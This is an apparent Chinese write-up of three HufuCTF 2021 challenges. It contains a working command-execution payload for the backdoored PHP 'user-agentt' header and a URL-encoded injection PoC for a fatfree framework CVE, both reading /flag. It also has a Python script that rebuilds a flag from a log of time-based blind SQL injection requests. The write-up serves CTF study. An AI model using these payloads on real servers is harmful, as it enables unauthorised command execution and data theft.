 ## 虎符CTF2021

## 0x01 签到

题目来源是一个新闻，

https://www.freebuf.com/news/267983.html

看git commit可以得知我们通过

user-agentt直接进行命令执行

所以直接user-agentt: zerodiumsystem("cat /flag");
即可。

## unsetme

fatfree unset eval 命令拼接CVE


poc:
```
0%0a);echo%20`cat%20/flag`;print(%27%27
```

得到flag



## 你会日志分析吗

sql盲注反推

```py
import re
from datetime import datetime

f = open("access.log","r")

raw = f.read()

pattern = r"192\.168\.52\.156 - - \[11\/Mar\/2021:(\d+:\d+:\d+) \+0000\] \"GET \/index\.php\?id=1'%20and%20if\(ord\(substr\(\(select%20flag%20from%20flllag\),(\d+),1\)\)=(\d+),sleep\(2\),1\)--"

matches =  re.findall(pattern,raw)
l_time = datetime.strptime("18:00:57", '%H:%M:%S')
i_time = datetime.strptime("18:00:57", '%H:%M:%S')
pos = ""
ch =""
lastmatch = ""

dic = ['0']*48

for match in matches:
    pos = match[1]
    ch  = match[2]
    #print(chr(int(ch)))
    l_time = i_time 
    i_time = datetime.strptime(match[0], '%H:%M:%S')
    #print((i_time-l_time).seconds)
    if (i_time-l_time).seconds>=2:
        print(i_time,l_time)
        print(lastmatch,match)
        dic[int(lastmatch[1])]=chr(int(lastmatch[2]))
    lastmatch = match

print(''.join(dic))
```